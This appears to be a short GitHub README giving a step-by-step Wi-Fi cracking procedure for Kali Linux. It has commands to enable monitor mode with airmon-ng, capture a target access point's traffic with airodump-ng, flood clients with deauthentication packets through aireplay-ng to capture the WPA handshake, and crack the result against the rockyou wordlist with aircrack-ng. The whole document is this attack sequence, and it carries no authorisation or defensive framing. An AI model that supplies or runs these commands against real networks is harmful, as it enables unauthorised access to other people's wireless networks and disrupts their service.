 # wifi-hacking-procedure-and-commands


Commands for wifi Hacking:
================
! See version of Kali

cat /etc/os-release

uname -a

! See interfaces

ip addr

iwconfig

!kill processes

sudo airmon-ng check kill

!Start monitor mode

sudo airmon-ng start wlan0

!Verify that monitor mode is used

sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:

iwconfig

! Get the AP's MAC address and channel

sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:

#ESSID: 90:9A:4A:B8:F3:FB

#Channel used by AP for SSID: 2

!1st Window:

!Make sure you replace the channel number and bssid with your own

!Replace hack1 with your file name like capture1 or something 

sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack

!Make sure you replace the bssid with your own

#sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file

#wireshark hack1-01.cap

!Filter Wireshark messages for EAPOL

eapol

!Stop monitor mode

#airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist

!Make sure you have rockyou in text format (unzip file on Kali)

!Replace hack1-01.cap with your file name

#aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
